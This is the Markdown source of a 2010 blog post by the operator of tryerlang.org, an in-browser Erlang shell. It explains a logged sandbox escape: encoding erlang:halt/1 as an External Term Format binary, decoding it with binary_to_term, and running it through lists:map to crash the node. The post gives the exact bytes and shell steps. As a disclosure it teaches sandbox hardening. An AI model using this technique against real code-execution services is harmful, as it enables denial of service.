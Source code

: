 ```yaml
---
layout      : post
title       : "How they tried to fool tryerlang.org"
description :
headline    :
modified    : 2010-10-14
category    : erlang
tags        : []
image       :
comments    : true
---
```


<h2>Preface</h2>

<a title="tryerlang.org" href="http://tryerlang.org" target="_blank">tryerlang.org</a> is an _interactive Erlang Shell_ which allows users to try the power of Erlang directly in a browser, without requiring them to install an Erlang runtime system on their machine. Even if intended for Erlang newbies, tryerlang.org has been subjected to a countless number of attacks conducted by Erlang experts who wanted to circumvent its sandboxing mechanism and to bring down the Erlang node running the application. I must admit that going through the tryerlang.org's logs is being an highly interesting and constructive experience.

In this blog post I will present one of the most elaborated attacks performed on tryerlang.org. The attack, which exploits the Erlang _External Term Representation_, has been performed by a former <a href="http://www.erlang-solutions.com" target="_blank">Erlang Solutions</a>' employee who had access to the tryerlang.org source code. To understand how the attack works, we need to introduce the Erlang _External Term Representation_.

<h2>External Term Representation</h2>

In Distributed Erlang, terms can be transferred from an Erlang node to another one using the so-called _binary_ format. Generic terms are encoded in binary from the sender using the built-in function <code>term_to_binary/1</code> and restored from the receiver using the complementary function <code>binary_to_term/2</code>. A binary message looks like this:

<pre>
<<131,100,0,6,112,105,103,101,111,110>>
</pre>

Which, as you can see, represents the binary encoding of the atom <code>pigeon</code>.

<pre>
1&gt; term_to_binary(pigeon).
&lt;&lt;131,100,0,6,112,105,103,101,111,110&gt;&gt;
2&gt; binary_to_term(&lt;&lt;131,100,0,6,112,105,103,101,111,110&gt;&gt;).
pigeon
</pre>

The _External Term Representation_ of Erlang terms is extensively documented in <a title="Erlang External Term Representation" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html" target="_blank">the official Erlang Documentation</a>. Let's see how the attacker used this concept in his own interest.

<h2>Halting the Erlang Node</h2>

To stop the Erlang node running tryerlang.org, the attacker tries at first the following command:

<pre>
&gt; erlang:halt().
</pre>

This function, documented <a title="Erlang Halt" href="http://www.erlang.org/doc/man/erlang.html#halt-0" target="_blank">here</a>, is supposed to _halt_ an Erlang runtime system, indicating a normal exit to the calling environment. The function has been disabled in tryerlang.org for security reasons, so the only result the user get is the following annoying message:

<pre>
"This functionality has been disabled for security reasons in tryerlang.org.".
</pre>

So, the Erlang node is still up and attacker prepares himself a good cup of Swedish coffee. After a couple of minutes playing with the tryerlang.org shell, the attcker notices that tryerlang.org allows you to define custom <a title="Erlang Funs" href="http://www.erlang.org/doc/programming_examples/funs.html" target="_blank">funs</a>. Then, the intuition. A _fun_, as any other Erlang term, <a title="export_ext" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html#id83276" target="_blank">can be encoded using the External Terms Representation</a>. The encoded fun could then be executed. This could hopefully fool the sandboxing mechanism protecting the tryerlang.org and could open a world of possibilities to the attacker.

According to the documentation, the external representation of the fun (in the <code>fun M:F/A</code> format) is the following:

<pre>
113 | Module | Function | Arity
</pre>

Where <code>Module</code> and <code>Function</code> are atoms and <code>Arity</code> is an integer.

Atoms themselves can be encoded using the <a title="atom ext" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html#ATOM_EXT" target="_blank">ATOM_EXT</a> format:

<pre>
100 | Len | AtomName
</pre>

Where <code>Len</code> is the length of <code>AtomName</code>, expressed using two bytes.

For the atom <code>erlang</code>, which is composed of 6 characters (the letters <code>e</code>, <code>r</code>, <code>l</code>, <code>a</code>, <code>n</code> and <code>g</code>) we obtain:

<pre>
100 | 0, 6 | 101, 114, 108, 97, 110, 103
</pre>

Where the integers in the third section are the ASCII codes for each of the letters composing the word "erlang".

Applying the same reasoning to the atom <code>halt</code>, we obtain:

<pre>
100 | 0, 4 | 104, 97, 108, 116
</pre>

Finally, the arity (an integer) can be encoded using the <a title="small integer ext" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html#id80902" target="_blank">SMALL_INTEGER_EXT</a> format:

<pre>
97 | Int
</pre>

So, in our case (arity = 0) we obtain:

<pre>
97 | 0
</pre>

Putting all the pieces together and considering that, in the External Term Representation, the byte <code>131</code> needs to be prepended to the final term, we can encode the <code>erlang:halt/</code>0 function into binary, obtaining:

<pre>
&lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,0&gt;&gt;
</pre>

Let's verify that we didn't do any mistake:

<pre>
&gt; binary_to_term(&lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,0&gt;&gt;).
&gt; #Fun&lt;erlang.halt.0&gt;
</pre>

Since tryerlang.org doesn't support copy-and-paste from the clipboard, we need to insert the sequence above by hand.

We can bind the binary to a new variable:
<pre>
&gt; B = &lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,0&gt;&gt;.
</pre>

We now need to convert the binary into an Erlang term. Originally, tryerlang.org was allowing <a title="Erlang Safe Binary To Term" href="http://www.erlang.org/doc/man/erlang.html#binary_to_term-2" target="_blank">the binary_to_term function in safe mode</a>. This function has been now completely disabled after this attack. If you want to try what follows you will need to do it in your own Erlang shell.

<pre>
&gt; F = binary_to_term(B, [safe]).
</pre>

Let's now try to launch the fun as:

<pre>
&gt;F().
</pre>

Well, that didn't work as expected. tryerlang.org actually realized that the <code>erlang:halt/0</code> function was going to be called and the sandboxing mechanism managed to block the execution of the command. We need to do something slightly different. For example, we might pass the newly defined fun as an argument (after all, Erlang is a functional language) to a function who would take care of executing it. As an example, we could use the library function <code>lists:map/2</code>. There's only a little tiny problem with that. The <code>list:map/2</code> function, in fact, requires that the fun passed as an argument receives _exactly one argument_. This is not the case of the <code>erlang:halt/0</code> function, which has arity equal to zero. Fortunately <a href="http://www.erlang.org/doc/man/erlang.html#halt-1" target="_blank">an alternative version of <code>erlang:halt/0</code> exists, taking exactly one argument</a>. The external representation for the new function differs from the previous one by only the very last byte. Let's _forget_ the old value of the variable <code>B</code> and let's bind it to the new binary:

<pre>
&gt; f(B).
&gt; B = &lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,1&gt;&gt;.
</pre>

We can now pass the new fun as an argument to the <code>lists:map</code> function:

<pre>
&gt; f(F).
&gt; F = binary_to_term(B, [safe]).
&gt;lists:map(F, [0]).
</pre>

And the node dies. Well, in reality the node is almost immediately brought back by <a title="Erlang Heart" href="http://www.erlang.org/doc/man/heart.html" target="_blank">heart</a> which is listening for heartbeats from the Erlang node itself but, hey, I have to pay a beer to this guy! :)

I wanted to share this experience with all of you. I consider it highly constructive, since it leads to reflect on several aspects of Erlang. Comments and feedback are more than welcome.
